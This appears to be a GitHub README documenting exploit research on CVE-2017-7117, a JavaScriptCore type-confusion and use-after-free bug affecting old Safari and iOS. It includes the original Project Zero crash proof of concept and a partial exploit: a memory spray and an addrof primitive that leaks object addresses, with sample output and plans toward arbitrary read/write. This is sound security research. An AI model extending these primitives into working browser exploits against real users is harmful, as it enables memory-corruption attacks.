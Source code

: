 # cve-2017-7117

## About the Bug

A type-confusion and UAF found in iOS 10.3.4 and earlier, Safari before 11.0.

CVE-2017-7117: [mitre.org](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-7117)

## Original Proof of Concept

Discovered by @lokihardt, source: [Google Project Zero](https://project-zero.issues.chromium.org/issues/42450350)

```js
function f() {
  let o = {};
  for (let i in {xx: 0}) { // i is a String
    for (i of [0]) { // i is now a number, but JIT treats as String
    }
    print(o[i]); // whoops
  }  
}

f();
```

Running the code above will cause JSC to crash.

## The Exploit

We craft a large array `arr`, that the JIT compiler will become confused into beleiving is a string. 

```js
var arr = new Uint32Array(1 * 1024 * 1024 / 4); // 1mb | 1 item == 4 bytes
arr[4] = 0xb0; // to pass checks for the member m_hashAndFlags 
```

When the reference to `i` is lost, we maintain access to the original array `arr` and can read the underlying memory.

By spraying a known value we can find this and traveerse up to locate the pointer to any object.

```js
function addrof(obj) {

    // search the freed array for this number
    var locator = 0x1337;

    // spray the freed memory with the locator
    var sprays = [];
    for (var i = 0; i < 0x1000; ++i) {
        sprays.push(i % 2 == 0 ? locator : obj);
    }

    // find the first instance of the locator
    var found = null;
    for(var i = 0; i < arr.length; i++) {
        if(arr[i] == locator) {
            found = i
            break
        }
    }

    // the pointer for the object is 3 and 2 indicies after the locator
    return found && [arr[found + 3], arr[found + 2]]

}
```

Values are accessed in memory via a `Uint32Array`, lower bits first, upper bits second.

```js
let target = {
    foo: "bar"
}

let address = addrof(target)
// address: 0x0000ffff8d178e60
```

You can verify the address is valid using `describe()`

```js
print(describe(target))
// Object: 0xffff8d178e60 with butterfly (nil) (0xffff9099bba0:[Object, {foo:0}, NonArray, Proto:0xffff909b00a0, Leaf]), ID: 244
```

## Replicate the Setup

Currently tested on:
- Ubuntu 20.04.5 LTS ARM64
- Vulnerable JavaScriptCore (JSC) from libwebkitgtk version 2.16.0
  - Build archive: [launchpad.net](https://launchpad.net/ubuntu/+source/webkit2gtk/2.16.0-1)
- LLDB for memory inspection (optional)

Does not work (yet) on iPhone 5, iOS 10.3.4. Let's find out why ...

## Next Steps?

- Craft a fake object
- Read / write arbitrary memory
- Jailbreak iOS 10?
